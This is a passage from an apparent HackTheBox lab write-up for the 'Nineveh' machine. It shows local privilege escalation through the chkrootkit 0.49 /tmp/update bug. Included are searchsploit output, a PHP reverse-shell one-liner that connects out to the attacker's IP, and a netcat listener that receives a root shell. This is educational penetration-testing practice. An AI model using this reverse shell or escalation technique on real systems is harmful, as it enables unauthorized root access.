 I search for an exploit:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ searchsploit chkrootkit
------------------------------------------------------------------------------------
 Exploit Title                                       |  Path
------------------------------------------------------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit) | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation         | linux/local/33899.txt
------------------------------------------------------------------------------------
Shellcodes: No Results

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ searchsploit -m linux/local/33899.txt
  Exploit: Chkrootkit 0.49 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/33899
     Path: /usr/share/exploitdb/exploits/linux/local/33899.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /hackthebox/oscp-prep/nineveh/33899.txt
```

Here is how the exploit works:

```bash
- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously) 
- Run chkrootkit (as uid 0)                                

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```

I reproduce the steps:

```bash
www-data@nineveh:/tmp$ nano update
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@nineveh:/tmp$ cat update
#!/bin/bash
php -r '$sock=fsockopen("10.10.17.28",9999);exec("/bin/sh -i <&3 >&3 2>&3");'
www-data@nineveh:/tmp$ chmod +x update
```

Now, start a netcat listener and wait until the shell spawns:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/nineveh]
└─$ nc -lvnp 9999           
listening on [any] 9999 ...
connect to [10.10.17.28] from (UNKNOWN) [10.10.10.43] 59136
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

